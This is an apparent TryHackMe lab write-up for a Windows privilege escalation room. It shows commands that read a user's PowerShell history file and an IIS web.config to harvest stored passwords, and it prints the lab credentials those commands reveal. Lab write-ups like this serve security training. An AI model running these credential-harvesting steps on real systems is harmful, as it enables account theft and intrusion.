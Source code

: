 # Room Information

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Banner%20-%20Windows%20Privilege%20Escalation.png)

Room link: https://tryhackme.com/room/windowsprivesc20

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 08/11/2023

# Room Tasks

## Harvesting Passwords From Usual Spots

### PowerShell History
1. Started up this task's machine
2. `type %userprofile%\<ConsoleHost_history.txt FILE LOCATION>` from our compromised Windows machine to display the the contents of our current user's `ConsoleHost_history.txt` file, which revealed to us the password for the julia.jones user since this file contains the user's PowerShell commands history
```PowerShell
C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
```

### Internet Information services (IIS) Configuration
1. Started up this task's machine
2. `type <IIS WEB CONFIGURATION FILE LOCATION> | findstr connectionString` from our compromised Windows machine to display the lines of Internet Information Services (IIS) `web.config` file containing the string "connectionString" onto our terminal, which revealed to us the set of credentials for the "db_admin" user since this configuration file usually store passwords for databases or configured authentication mechanisms
```PowerShell
C:\Users\thm-unpriv>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>
```
